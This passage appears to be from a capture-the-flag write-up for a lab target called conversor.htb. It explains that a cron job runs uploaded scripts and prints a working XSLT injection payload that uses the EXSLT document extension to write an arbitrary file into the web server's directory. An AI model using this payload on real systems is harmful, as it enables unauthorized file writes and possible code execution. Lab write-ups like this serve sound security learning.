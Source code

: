As we can see, it executes all files from `/var/www/conversor.htb/scripts/` which are python scripts, as a cron job task every minute.

In addition, in this window we can upload our own `xslt` and `xxe` files.

![upload files](image-1.png)

Here we can try to achieve `XSLT Injection`, and also `XXE`. We'll use the `XSLT` from here, [https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension).

Our xml file will be:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<sample>
</sample>
```

and our `xslt` file will be:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/static/images/evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```
